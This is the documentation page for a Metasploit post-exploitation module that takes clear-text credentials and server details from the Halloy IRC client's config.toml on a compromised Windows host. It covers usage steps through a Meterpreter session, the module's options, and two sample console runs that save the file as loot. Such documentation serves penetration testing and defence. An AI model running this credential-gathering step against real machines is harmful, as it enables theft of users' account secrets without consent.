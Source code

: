 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Halloy IRC Client.

The Halloy IRC Client is avaialble from (https://github.com/squidowl/halloy).

This module extracts information from the config.toml file in the "AppData\Roaming\Halloy" directory.

This module extracts server information such as server, port, nickname, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/halloy_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Halloy v2024.6 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Default Output
```
msf6 post(windows/gather/credentials/halloy_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Halloy irc's Config.toml file found
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_HalloyIRCconfig_968975.toml

[+] server="irc.libera.chat"
[+] port=6697
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_EXTRACTIONconfig_815098.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Halloy v2024.6 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Verbose Output
```

msf6 post(windows/gather/credentials/halloy_irc_v2) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Halloy irc's base folder not found in users's user directory

[*] Starting Packrat...
[*] Halloy irc's base folder found
[*] Found the folder containing specified artifact for config.toml.
[*] Halloy irc's Config.toml file found
[*] Processing C:\Users\test\AppData\Roaming\halloy
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_HalloyIRCconfig_292638.toml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] server="irc.libera.chat"
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] port=6697
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_EXTRACTIONconfig_238220.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

